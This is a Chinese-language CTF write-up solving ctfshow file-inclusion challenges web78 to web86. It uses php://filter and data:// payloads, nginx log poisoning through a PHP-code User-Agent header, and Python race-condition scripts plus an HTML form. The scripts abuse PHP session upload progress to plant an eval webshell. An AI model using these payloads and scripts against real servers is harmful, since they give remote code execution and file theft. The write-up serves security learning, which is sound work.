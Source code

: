 # ctfshow-web文件包含(web78-88)
[toc]

学习了大佬的总结文章：[文件包含总结](https://blog.csdn.net/qq_42181428/article/details/87090539?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522163818231816780264086483%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=163818231816780264086483&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-87090539.pc_search_result_control_group&utm_term=ctf%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB&spm=1018.2226.3001.4187)

开始做题

## web78 php://filter
![image](images/1wPFzslh6Rk8e34s00DQZnn_wJmC2gfdBq8nMCjPoXM.png)

```Plain Text
payload->url/?file=php://filter/read=convert.base64-encode/resource=flag.php
得到base64加密后的数据包，解密即可得flag
```
---
## web79 data://
![image](images/fR-hY71uhDJEZeWG7mdmB8CYNVBYI4XQ0NYXlruYrA0.png)

**题目描述**

```php
 <?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```
根据源代码可以得知把php字符给替换掉了，使用倒数第三个POC

```Plain Text
payload->url/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
ps:decode(PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=) = <?php system('cat flag.php');
```
---
## web80 nginx日志文件+cookie处执行命令
**题目描述**

比上一题多禁用了data，考虑看日志文件

```Plain Text
nginx 主要日志文件
Nginx的默认访问日志文件为 /var/log/nginx/access.log
Nginx的默认错误日志文件为 /var/log/nginx/error.log
PHP默认错误日志文件为 /var/log/php-fpm/www-error.log
```
大佬关于日志文件漏洞利用的文章：[日志文件漏洞利用](https://www.cnblogs.com/my1e3/p/5854897.html)

```Plain Text
如果访问一个不存在的资源时，如http://www.xxxx.com/<?php phpinfo(); ?>,则会记录在日志中，但是代码中的敏感字符会被浏览器转码，我们可以通过burpsuit绕过编码，就可以把<?php phpinfo(); ?> 写入nginx的日志文件，然后可以通过包含日志文件来执行此代码，
```


我们利用bp上传木马，然后连接传命令，结果是400Bad Request



使用curl试试

```powershell
curl -v "http://ba16ddfe-5c63-4f6c-8c55-ce3a5f93fae7.challenge.ctf.show/?<?php @eval($_POST\[1\]);?>"
```
也失败



利用bp放在cookie试试

```powershell
User-Agent: <?php phpinfo();?>
```
success!

直接在Cookie处执行代码

```powershell
User-Agent: <?php system('ls');?>
```
得到

```powershell
172.12.0.2 - - [30/Nov/2021:08:10:09 +0000] "GET / HTTP/1.1" 200 2291 "-" "fl0g.php index.php " 
```
由此

```powershell
User-Agent: <?php system('tac fl0g.php');?>
```
得到flag

---




## web82-86 session
条件竞争的两个代码模板

POC1

```python
import requests
import io
import threading

url='http://58405d42-f0fd-4831-9a8d-7ca10dcd98bc.challenge.ctf.show/'
sessionid='ctfshow'
data={
	"1":"file_put_contents('/var/www/html/2.php','<?php eval($_POST[2]);?>');"
}
#<?php eval($_POST[1]);?>
def write(session):
	fileBytes = io.BytesIO(b'a'*1024*50)
	while True:
		response=session.post(url,
			data={
			'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
			},
			cookies={
			'PHPSESSID':sessionid
			},
			files={
			'file':('ctfshow.jpg',fileBytes)
			}
			)

def read(session):
	while True:
		response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
			cookies={
			'PHPSESSID':sessionid
			}
			)
		resposne2=session.get(url+'2.php');
		if resposne2.status_code==200:
			print('++++++done++++++')
		else:
			print(resposne2.status_code)

if __name__ == '__main__':

	evnet=threading.Event()
	with requests.session() as session:
		for i in range(2):
			threading.Thread(target=write,args=(session,)).start()
		for i in range(2):
			threading.Thread(target=read,args=(session,)).start()

	evnet.set()

```


POC2

```python
#利用PHP_SESSION_UPLOAD_PROGRESS上传木马文件，而后POST请求session临时存储的文件执行木马，而后利用木马传入命令
import requests
import threading
import sys
session = requests.session()
sess='3plusa'
url="http://58405d42-f0fd-4831-9a8d-7ca10dcd98bc.challenge.ctf.show/"

data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
}

data2 = {
    '1':'system("ls");'
}

file={
    'file':'3+1 is my girlfriend'
}

cookies = {
    'PHPSESSID':sess
}

#上传木马文件
def write():
    while True:
        r = session.post(url,data=data1,files=file,cookies=cookies)

#利用木马文件上传命令
def read():
    while True:
        r = session.post(url+"?file=/tmp/sess_"+sess,data=data2)
        print(r.text)

threads = [threading.Thread(target=write),threading.Thread(target=read)]
for t in threads:
    t.start()
```


但此题尝试了二者都不行，尝试[表单上传session](https://blog.csdn.net/qq_46091464/article/details/108021053)



POC

```php
#poc.php
<!DOCTYPE html>
<html>
<body>
<form action="http://58405d42-f0fd-4831-9a8d-7ca10dcd98bc.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="2333" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
<?php
session_start();
?>
```
大佬的wp：[wp](https://blog.51cto.com/u_15082392/3369049)

结合bp爆破进行条件竞争即可

---
